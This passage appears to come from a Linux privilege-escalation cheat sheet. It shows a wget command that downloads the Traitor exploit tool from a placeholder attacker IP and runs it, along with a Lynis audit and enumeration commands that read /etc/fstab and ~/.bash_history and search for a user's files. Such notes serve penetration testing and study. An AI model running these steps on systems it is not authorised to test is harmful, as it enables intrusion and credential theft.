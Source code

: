Exploit common misconfigurations:

```bash
wget http://<ATTACKER_IP>/traitor
chmod +x traitor
./traitor
```

> **Reference:** [Traitor GitHub](https://github.com/liamg/traitor)

### Lynis

Perform a system audit:

```bash
./lynis audit system
```

> **Reference:** [Lynis GitHub](https://github.com/CISOfy/lynis)

## Additional Checks

### Unmounted Filesystems

Check for unmounted drives:

```bash
lsblk
cat /etc/fstab
```

### Bash History

Review user command history:

```bash
history
cat ~/.bash_history
```

### Shared Objects

Check dependencies of a binary:

```bash
ldd /bin/ls
readelf -d /bin/ls | grep PATH
```

### User-Created Files

Find files owned by a specific user:

```bash
find / -user <USERNAME> 2>/dev/null
```

## Resources
